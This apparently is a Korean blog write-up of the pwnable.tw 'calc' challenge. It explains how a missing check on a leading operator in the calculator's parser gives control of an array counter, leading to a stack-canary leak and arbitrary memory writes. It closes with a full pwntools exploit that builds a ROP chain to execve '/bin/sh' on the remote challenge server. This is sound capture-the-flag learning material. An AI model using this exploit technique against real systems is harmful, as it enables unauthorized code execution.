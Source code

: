 ```yaml
---
layout: post
title: ! ' [pwnable.tw] calc writeup '
excerpt_separator: <!--more-->
tags:
  - Write-up
  - pwnable.tw
  - pwnable
---
```


pwnable.tw 문제 풀었습니다. 150점 짜리면 세번째로 쉬운건데 너무 오래걸렸네요... 갈 길이 멉니다..

<!--more-->

## calc (150 pts)

[pwnable.tw](https://pwnable.tw/) 문제입니다. 여긴 난이도가 꽤 있는거 같아요.. 확실히 100pts 문제에 비해 푼 사람이 절반이라는 게 놀랍군요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic01.PNG)

문제 자체는 상당히 심플한 프로그램입니다. 계산기에요. 근데 프로그램 코드가 좀 긴 편입니다. 분석하기 싫게 만들었어요. main 함수 안으로 들어가보면 알람 60초 걸어놓고 calc 함수를 호출하는 데, 이게 가장 중요한 함수입니다. 들어가서 의사코드로 확인해볼게요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic02.PNG)

무한루프로 1분동안 계속 실행되고, get_expr, parse_expr 함수가 눈에 띕니다. get_expr 함수는 입력받아서 화이트리스트를 통해 올바르지 않은 입력값은 아예 받아들이지 않습니다. 반면에 걸러진 표현식은 expr 변수에 저장됩니다. 이 함수는 표현식이 올바른지는 검사하지 않습니다. 단지 화이트리스트 내의 원소에 포함인지만 검사해요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic04.PNG)

parse_expr는 걸러진 표현식을 이용해 계산을 수행합니다. 내부적으로 eval 이라는 함수를 이용해서 계산하는데, 계산하는 방식이 조금 특이합니다. 16 + 4 라는 표현식을 계산한다고 가정 해 봅시다. 먼저 1과 6을 넘긴 뒤 '+'에 도달하면 표현식을 분해하기 시작합니다. 16은 2bytes를 차지하므로 null 까지 3bytes를 동적 할당한 뒤, 이를 atoi 함수를 이용해서 int형으로 바꾸어주는 작업을 합니다. 바뀐 숫자는 poll 배열에 들어갑니다. 그 뒤 기호 배열(s)이 현재 비어있으므로, '+' 기호를 기호 배열에 넣습니다. 다음 숫자 4를 넘기고 expr 분석을 종료하면 기호 배열에서 연산 기호를 빼내면서 차례대로 연산합니다. 만약 *, /가 등장하면 이는 스택처럼 작동하여 적절하게 우선순위 연산을 수행합니다.

parse_expr이 에러를 감지하는 경우는 크게 두가지입니다. 첫 번째로는 연산 기호 이후에 숫자가 오지 않았을 경우입니다. 두 번째로는 숫자에 '0'이 나오는 경우입니다. 이 두 가지의 경우는 계산을 강제로 종료하고, 나머지는 정해진 대로 연산을 수행합니다. 그런데 문제는 맨 처음에 숫자 대신 연산 기호가 나타나는 경우를 제어하고 있지 않아서 발생합니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic03.PNG)

현재 계산을 수행하는 과정은 가장 처음 표현식이 숫자라고 가정하면서 출발합니다. 만약 숫자, 연산기호, 숫자의 형식이 아니라 연산기호, 숫자의 형식으로 값이 들어와도 정상이라고 생각하죠.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic06.PNG)

보기 쉽게 바꿔주면 이렇습니다. IDA에서 구조체 선언은 처음 해봤는데 보기 편하네요. 

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic05.PNG)

eval에서 연산할 때 p->numbers의 배열을 참조하는데, 이때 cnt의 값에 따라서 참조하는 배열 위치가 다릅니다. 그런데 이부분을 init_pool에서 100개까지만 정리하므로 그 밖의 값들은 정리가 안될거에요. 그럼 이런 상황에서 만약에 '' + 100과 같은 값을 입력했다고 가정해봅시다. 일단 ''이 atoi('')에서 0을 반환하는 데, 0의 경우에는 numbers에 접근하지 않습니다. 근데 numbers에 접근하지 않으면 cnt도 증가시키지 않아요. 그리고 '+' 연산 기호가 스택에 들어가고, 100이 numbers에 접근하면서 cnt가 1이 됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic07.PNG)

지금 cnt가 1이죠. 그런데 eval 함수에서 더하기 연산을 하면서 `p->numbers[-1] = p->numbers[-1] + p->numbers[0]`이 됩니다. p->numbers[-1]은 p->cnt입니다. 그러면 p->cnt가 1이었다가 입력해준 숫자랑 더해지면서 101이 될겁니다. eval에서 마지막에 --p->cnt를 해주면서 다시 입력해 준 숫자가 됩니다. 결국 p->cnt가 매우 커졌을뿐만 아니라, 우리가 원하는 값으로 제어됩니다. 그럼 출력하는 부분을 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic08.PNG)

p->numbers[p->cnt - 1]입니다. 그러면 p->cnt가 우리가 입력한 값이니까 `입력한 값-1` 의 위치에 있는 정수를 출력할 수 있게됩니다. p->numbers의 0번째부터 canary까지는 `356(*4) bytes` 만큼 떨어져있으니, 입력할 값을 357로 해주면 canary가 출력됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic09.PNG)

또한 임의 메모리에 값을 덮어쓸 수도 있게되었습니다. 임의 메모리 오프셋으로 p->cnt 값을 조정해주고 거기다가 값을 더하거나 빼면 eval함수에서 해당 메모리의 값이 조작되니까요. 이를 기반으로 익스플로잇 코드를 작성했습니다.

```python
from pwn import *

PROCESS = "./calc"
HOST = "chall.pwnable.tw"
PORT = 10100
#r = process(PROCESS)
r = remote(HOST, PORT)

addr_bin_sh = 0x080ee360
_bin = 0x6e69622f
__sh = 0x0068732f

pop_eax = 0x0805c34b # pop eax; ret
pop_ecx_ebx = 0x080701d1 # pop ecx; pop ebx; ret
pop_edx = 0x080701aa # pop edx; ret
write_ecx = 0x080958c2 # add [ecx], eax; ret
int80 = 0x08070880 # int 0x80; ret

def main () :
	r.recvuntil("==\n")
	insert(361, pop_eax)
	insert(362, _bin)
	insert(363, pop_ecx_ebx)
	insert(364, addr_bin_sh)
	insert(365, addr_bin_sh)
	insert(366, write_ecx)
	insert(367, pop_eax)
	insert(368, __sh)
	insert(369, pop_ecx_ebx)
	insert(370, addr_bin_sh+4)
	insert(371, addr_bin_sh+4)
	insert(372, write_ecx)
	insert(373, pop_eax)
	insert(374, 0xb)
	insert(375, pop_ecx_ebx)
	insert(376, addr_bin_sh+8)
	insert(377, addr_bin_sh)
	insert(378, pop_edx)
	insert(379, addr_bin_sh+8)
	insert(380, int80)
	r.sendline("")

	# get shell
	r.interactive()

def insert (index, data) :
	show = "+" + str(index)
	r.sendline(show)
	origin = int(r.recvline())
	if (origin < 0) :
		origin *= -1

	payload = show
	payload += "+" + str(int(data))
	payload += "-" + str(origin)
	r.sendline(payload)
	print (payload)
	r.recv(1024)

if __name__ == '__main__' :
	main ()
```

.BSS 영역에 /bin/sh를 써주고 실행시키는 쉘 코드를 연산을 통해 작성했습니다. 쓰고보니 쓴 값에 따라서 꼬랑지가 결정되므로 좀더 이쁘게 쓸 수 있더라구요.. 그래도 뭐 작동하니까요 ㅎ..

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic10.PNG)

읽어주셔서 감사합니다 :)
